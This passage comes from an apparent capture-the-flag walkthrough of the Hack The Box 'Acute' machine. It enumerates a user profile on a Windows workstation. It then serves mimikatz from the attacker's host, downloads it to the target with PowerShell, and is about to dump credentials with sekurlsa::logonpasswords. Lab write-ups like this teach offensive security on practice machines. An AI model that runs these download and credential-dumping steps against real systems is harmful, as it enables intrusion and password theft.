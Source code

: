 I'm user `jmorgan` on `Acute-PC01`!

### `Acute-PC01` jmorgan to `ATSSERVER` awallace

**After enumerating user `jmorgan`'s profile, I found nothing interesting:**
```shell
PS C:\Users\jmorgan\Documents> gci -Recurse C:\Users\jmorgan\
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-r---        07/12/2019     09:14                Desktop                                                              
d-r---        21/12/2021     22:50                Documents                                                            
d-r---        07/12/2019     09:14                Downloads                                                            
d-r---        07/12/2019     09:14                Favorites                                                            
d-r---        07/12/2019     09:14                Links                                                                
d-r---        07/12/2019     09:14                Music                                                                
d-r---        07/12/2019     09:14                Pictures                                                             
d-----        07/12/2019     09:14                Saved Games                                                          
d-r---        07/12/2019     09:14                Videos                                                               
```

Now, a quick question: What is the first thing would you do after gaining administrator access in a domain-joined client workstation?

You guessed! **Dumping password hashes via [mimikatz](https://github.com/ParrotSec/mimikatz)!**

- Transfer mimikatz executable to `Acute-PC01`:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:12:25(HKT)]
└> file /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe: PE32+ executable (console) x86-64, for MS Windows, 6 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:12:30(HKT)]
└> python3 -m http.server -d /usr/share/windows-resources/mimikatz/x64/ 80            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
PS C:\Users\jmorgan\Documents> iwr -Uri http://10.10.14.19/mimikatz.exe -OutFile C:\Utils\mimikatz.exe
```

- Dump password hashes via `sekurlsa::logonpasswords`:
